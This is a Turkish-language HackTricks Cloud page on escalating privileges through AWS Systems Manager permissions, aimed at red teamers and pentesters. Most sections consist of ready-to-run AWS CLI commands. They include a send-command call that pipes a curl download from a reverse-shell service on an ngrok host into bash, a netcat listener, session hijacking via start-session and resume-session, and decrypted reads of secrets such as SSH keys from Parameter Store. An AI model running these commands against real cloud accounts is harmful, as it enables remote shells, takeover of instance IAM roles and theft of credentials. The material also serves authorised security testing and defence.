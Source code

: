 # AWS - SSM Privesc

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## SSM

SSM hakkında daha fazla bilgi için kontrol edin:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

**`ssm:SendCommand`** iznine sahip bir saldırgan, Amazon SSM Agent'ı çalıştıran örneklerde **komutları çalıştırabilir** ve içindeki IAM Rolünü **tehdit edebilir**.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
Eğer bu tekniği zaten ele geçirilmiş bir EC2 örneği içinde ayrıcalıkları artırmak için kullanıyorsanız, rev shell'i yerel olarak şu şekilde yakalayabilirsiniz:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Olası Etki:** SSM Agent'ları çalışan örneklere bağlı EC2 IAM rollerine doğrudan yetki yükseltme.

### `ssm:StartSession`

**`ssm:StartSession`** iznine sahip bir saldırgan, **Amazon SSM Agent'ı çalışan örneklerde SSH benzeri bir oturum başlatabilir** ve **içinde çalışan IAM Rolünü tehlikeye atabilir.**
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Bir oturum başlatmak için **SessionManagerPlugin**'in kurulu olması gerekir: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Olası Etki:** SSM Agent'ları çalışan örneklere bağlı EC2 IAM rollerine doğrudan privesc.

#### ECS'ye Privesc

**ECS görevleri** **`ExecuteCommand` etkinleştirildiğinde** yeterli izinlere sahip kullanıcılar `ecs execute-command` kullanarak **bir komut çalıştırabilirler** konteyner içinde.\
[**belgelere**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/) göre bu, “_exec_“ komutunu başlatmak için kullandığınız cihaz ile hedef konteyner arasında güvenli bir kanal oluşturarak yapılır. (Bunun çalışması için SSM Session Manager Plugin gereklidir)\
Bu nedenle, `ssm:StartSession` iznine sahip kullanıcılar, bu seçenek etkinleştirildiğinde **ECS görevleri içinde bir shell alabileceklerdir** sadece şunu çalıştırarak:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**Potansiyel Etki:** `ExecuteCommand` etkin olan çalışan görevlere bağlı `ECS` IAM rollerine doğrudan yetki yükseltme.

### `ssm:ResumeSession`

**`ssm:ResumeSession`** iznine sahip bir saldırgan, Amazon SSM Agent'ı çalıştıran örneklerde **bağlantısı kesilmiş** SSM oturum durumu ile bir SSH benzeri oturumu yeniden **başlatabilir** ve içindeki IAM Rolünü **tehdit edebilir**.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Potansiyel Etki:** Çalışan örneklere bağlı EC2 IAM rollerine doğrudan yetki yükseltme ve SSM Ajansı çalışan ve bağlantısı kesilmiş oturumlar.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Belirtilen izinlere sahip bir saldırgan, **SSM parametrelerini** listeleyebilecek ve **açık metin olarak okuyabilecektir**. Bu parametrelerde sıklıkla **hassas bilgiler** bulabilirsiniz, örneğin SSH anahtarları veya API anahtarları.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Olası Etki:** Parametreler içinde hassas bilgileri bulma.

### `ssm:ListCommands`

Bu izne sahip bir saldırgan, gönderilen tüm **komutları** listeleyebilir ve umarım bunlar üzerinde **hassas bilgileri** bulabilir.
```
aws ssm list-commands
```
**Olası Etki:** Komut satırlarında hassas bilgileri bulmak.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Bu izinlere sahip bir saldırgan, gönderilen tüm **komutları** listeleyebilir ve **çıktıyı** okuyarak umarım üzerinde **hassas bilgiler** bulabilir.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Potansiyel Etki:** Komut satırlarının çıktısında hassas bilgileri bulmak.

### Codebuild

Ayrıca, SSM'yi inşa edilen bir codebuild projesine girmek için de kullanabilirsiniz:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
